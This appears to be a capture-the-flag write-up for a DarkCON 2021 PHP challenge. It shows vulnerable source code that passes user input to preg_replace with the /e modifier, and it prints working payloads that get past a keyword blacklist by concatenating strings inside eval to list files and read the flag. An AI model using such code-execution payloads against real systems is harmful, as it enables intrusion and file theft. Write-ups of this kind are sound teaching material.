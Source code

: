 The initial webpage doesn't contain anything interesting and since the description says that no brute forcing is needed, just the most common files can be requested.

`/robots.txt` is present and contains a single entry `?lmao`. Requesting `/?lmao` gives the source for that PHP file:

```php
<?php
require_once 'config.php';

$text = "Welcome DarkCON CTF !!";

if (isset($_GET['lmao'])) {
    highlight_file(__FILE__);
    exit;
}
else {
    $payload = $_GET['bruh'];
    if (isset($payload)) {
        if (is_payload_danger($payload)) {
            die("Amazing Goob JOb You :) ");
        }
        else {
            echo preg_replace($_GET['nic3'], $payload, $text);
        }
    }
    echo $text;
}
?>
```

Here, both the pattern to be replaced and the replacement for `preg_replace` are controlled by user input, however the replacement string is filtered by `is_payload_danger`.

[Source](https://medium.com/@roshancp/command-execution-preg-replace-php-function-exploit-62d6f746bda4). `preg_replace` executes commands when the pattern has the `e` modifier, running the replacement string as PHP code and putting the generated value in place of the pattern to replace. The only problem is getting past the filtering.

Among the list of (sub)strings that are banned are `config`, `file`, `include` and `dir`, making usual approaches not work. However, `eval` is not filtered out, so these functions can still be constructed:

```
/?nic3=/W/e&bruh=eval('echo implode(",",scand'.'ir("."));');
```

returns

```
.,..,config.php,flag210d9f88fd1db71b947fbdce22871b57.php,index.php,robots.txtelcome DarkCON CTF !!Welcome DarkCON CTF !!
```

and then to get the contents:

```
/?nic3=/W/e&bruh=eval('echo fi'.'le_get_contents("flag210d9f88fd1db71b947fbdce22871b57.php");');
```

which returns

```
darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!} elcome DarkCON CTF !!Welcome DarkCON CTF !!
```

(In later analysis, the flag file can be accessed via a direct request without the need for RCE.)
